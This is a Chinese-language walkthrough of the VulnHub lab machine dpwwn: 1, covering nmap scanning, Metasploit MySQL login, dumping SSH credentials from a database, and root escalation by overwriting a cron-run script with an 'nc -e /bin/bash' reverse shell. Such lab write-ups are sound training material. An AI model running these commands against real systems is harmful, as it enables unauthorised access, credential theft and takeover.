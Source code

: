 ## 复盘*

## 靶机地址

[dpwwn: 1 ~ VulnHub](https://www.vulnhub.com/entry/dpwwn-1,342/)

![image-20250317084410435](./assets/image-20250317084410435.png)



## 信息收集

### nmap扫描

#### 主机探测

```
nmap -sn 192.168.23.0/24
```

![image-20250317084538154](./assets/image-20250317084538154.png)

确定靶机ip：

192.168.23.139



#### 创建文件夹用来存储后续扫描信息

```
nmdir nmapscan
```

![image-20250317085141939](./assets/image-20250317085141939.png)



####  端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.23.139 -oA ./nmapscan/ports
```

![image-20250317085205407](./assets/image-20250317085205407.png)

开放了

- 22 ssh
- 80 http
- 3306 mysql



#### 提取端口信息

```
ports=$(cat ./nmapscan/ports.nmap | grep open | awk -F'/' '{print $1}' |
paste -sd,)
echo $ports
```

![image-20250317085226900](./assets/image-20250317085226900.png)



#### 详细结果扫描

```
nmap -sT -sV -sC -O -Pn -p 22,80,3306 192.168.23.139 -oA ./nmapscan/detai
l
```

![image-20250317085352314](./assets/image-20250317085352314.png)

分析：

- 22 端口 ssh OpenSSH 7.4
- 80 端口 http Apache httpd 2.4.6
- CentOS系统
- PHP 5.4.16
- 3306 端口 mysql
- MariaDB 5.5.60



### 尝试msf 

```
msfconsole
search scanner/mysql
use auxiliary/scanner/mysql/mysql_login 
```

![image-20250317085709309](./assets/image-20250317085709309.png)

![image-20250317085721364](./assets/image-20250317085721364.png)



```
show options
set CREATESESSION yes
set RHOSTS 192.168.23.139
run
```

![image-20250317085751073](./assets/image-20250317085751073.png)



![image-20250317085909179](./assets/image-20250317085909179.png)

可以看到一个会话建立



#### 进入该会话

```
sessions -i 1
query show databases;
query use ssh;
query show tables;
query select * from users;
```

![image-20250317090107446](./assets/image-20250317090107446.png)

![image-20250317090115568](./assets/image-20250317090115568.png)

![image-20250317090208074](./assets/image-20250317090208074.png)

直接拿到了ssh账号密码



### 尝试ssh登录

```
ssh mistic@192.168.23.139
```

![image-20250317090233563](./assets/image-20250317090233563.png)



## 提权

```
ls -al
```

![image-20250317090259239](./assets/image-20250317090259239.png)

有一个logrot.sh



### 查看logrot.sh

```
cat logrot.sh
```

![image-20250317090336592](./assets/image-20250317090336592.png)



### 查看定时任务

```
cat /etc/crontab
```

![image-20250317090406451](./assets/image-20250317090406451.png)

root用户每三分钟执行一次该脚本

且当前用户可以修改该脚本



### 反弹shell

#### 本地监听

```
nc -lvp 283
```

![image-20250317090526145](./assets/image-20250317090526145.png)

```
echo 'nc -e /bin/bash 192.168.23.134 283' > logrot.sh
cat logrot.sh
```

![image-20250317090544267](./assets/image-20250317090544267.png)

成功写入



等root用户定时执行该脚本，即可获得root权限的shell



### 得到flag

![image-20250317090639379](./assets/image-20250317090639379.png)

![image-20250317090721584](./assets/image-20250317090721584.png)